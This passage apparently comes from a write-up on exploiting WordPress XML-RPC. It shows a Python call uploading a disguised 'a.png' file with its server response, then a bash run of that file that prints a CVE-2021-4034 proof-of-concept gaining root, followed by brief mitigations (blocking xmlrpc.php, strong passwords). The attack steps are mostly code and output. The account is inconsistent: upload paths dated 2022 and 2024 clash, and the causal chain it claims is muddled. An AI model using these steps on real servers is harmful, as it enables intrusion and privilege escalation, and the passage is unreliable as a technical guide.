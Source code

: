 ### Result of File Upload Exploitation:
The result of our file upload using XML-RPC was successful, demonstrating the ability to bypass security filters. The file upload result was:

```python
client.call(media.UploadFile(fileToUpload))
"{'attachment_id': '52', 'date_created_gmt': <DateTime '20240425T10:26:49' at 0x7fbc59f43710>, 'parent': 0, 'link': '/wp-content/uploads/2022/04/a.png', 'title': 'a.png', 'caption': '', 'description': '', 'metadata': False, 'type': 'text/plain', 'thumbnail': '/wp-content/uploads/2022/04/a.png', 'id': '52', 'file': 'a.png', 'url': '/wp-content/uploads/2022/04/a.png'}"
```

Afterward, running the script as a privileged user could be possible, accessing the file as if it were an image but actually executing it as a bash script. This demonstrates an effective way to circumvent security measures and exploit system privileges.

```bash
$~ bash /var/www/html/wp-content/uploads/2024/04/a.png

██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
CVE-2021-4034 PoC by Kim Schulz
[+] Setting up environment...
[+] Build offensive gconv shared module...
[+] Build mini executor...
uid=0(root) gid=0(root) groups=0(root),33(www-data)
hello[+] Nice Job
```

## Mitigation Strategies for XML-RPC Exploitation in WordPress

Exploiting WordPress via XML-RPC can lead to unauthorized command execution and privilege escalation. To mitigate such vulnerabilities, consider implementing the following strategies:

### 1. Disable XML-RPC
If XML-RPC is not needed for your WordPress site, it is safer to disable it entirely. This can be done by adding the following code to your `.htaccess` file:

```apache
<Files "xmlrpc.php">
Order Allow,Deny
Deny from all
</Files>
```

### 2. Use Strong Authentication
Ensure that strong, unique passwords are used for all user accounts and enforce two-factor authentication (2FA) to add an extra layer of security.
